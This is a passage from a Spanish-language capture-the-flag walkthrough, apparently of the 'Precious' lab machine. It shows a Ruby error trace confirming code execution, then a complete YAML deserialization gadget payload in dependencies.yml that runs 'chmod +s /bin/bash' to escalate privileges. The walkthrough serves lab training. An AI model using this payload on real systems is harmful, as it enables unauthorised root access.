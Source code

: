 ```bash
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

¡Nuestra ejecución de código funcionó! Ahora veamos si podemos cambiar los permisos del binario `/bin/bash` para que podamos elevar nuestros privilegios. 

Editamos nuevamente el archivo `dependencies.yml` para asignar permisos **SUID** al binario `/bin/bash`:

```bash
henry@precious:~$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```
